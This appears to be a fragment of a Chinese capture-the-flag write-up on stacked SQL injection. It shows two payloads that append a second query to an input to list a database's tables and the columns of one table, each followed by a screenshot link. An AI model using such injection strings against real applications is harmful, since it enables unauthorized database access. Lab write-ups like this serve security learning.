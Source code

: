 查询表名

```
1'; show tables;
```

![image-20240409205951798](../图片/image-20240409205951798.png)

查询表名为1919810931114514中的列名

```
1';show columns from `1919810931114514`;
```

![image-20240409212024750](../图片/image-20240409212024750.png)
